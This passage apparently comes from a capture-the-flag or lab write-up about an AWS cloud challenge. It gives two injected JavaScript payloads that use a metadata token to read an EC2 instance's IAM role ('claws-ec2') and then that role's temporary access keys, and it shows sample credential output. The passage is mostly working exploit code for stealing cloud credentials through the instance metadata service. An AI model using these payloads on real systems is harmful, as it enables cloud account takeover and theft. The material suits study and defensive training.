 Now that I have this, I get make a GET request for the credentials to make use of AWS CLI with.
```html
<script>
    const token = "AQAEANXL_v1H-g6xqHtJMk242Ck11hRJ9JL2d9EJHWR3XjPDlrWN3Q==";

    let xhr = new XMLHttpRequest();

    xhr.onreadystatechange = function() {
        if (xhr.readyState === 4) {
            document.open();
            document.write('<html><body><pre>' + xhr.responseText + '</pre></body></html>');
            document.close();
        }
    };

    xhr.open("GET", "http://127.0.0.1:45198/latest/meta-data/iam/security-credentials/", true);
    xhr.setRequestHeader("X-aws-ec2-metadata-token",token);
    xhr.send();
</script>
```

The script above returns the role, in this case it is `claws-ec2`. With this, we can query for the credentials.
```html
<script>
    const token = "AQAEANXL_v1H-g6xqHtJMk242Ck11hRJ9JL2d9EJHWR3XjPDlrWN3Q==";
    const role = "claws-ec2"

    let xhr = new XMLHttpRequest();

    xhr.onreadystatechange = function() {
        if (xhr.readyState === 4) {
            document.open();
            document.write('<html><body><pre>' + xhr.responseText + '</pre></body></html>');
            document.close();
        }
    };

    xhr.open("GET", "http://127.0.0.1:45198/latest/meta-data/iam/security-credentials/" + encodeURIComponent(role), true);
    xhr.setRequestHeader("X-aws-ec2-metadata-token",token);
    xhr.send();
</script>
```

Here is an example of the output:
```json
{
  "Code": "Success",
  "LastUpdated": "2025-09-24T08:13:29Z",
  "Type": "AWS-HMAC",
  "AccessKeyId": "ASIAXYKJ...",
  "SecretAccessKey": "z6h0kmPqYkGhLwCv9...",
  "Token": "IQoJb3JpZ2luX2VjE...",
  "Expiration": "2025-09-24T14:25:17Z"
}
```
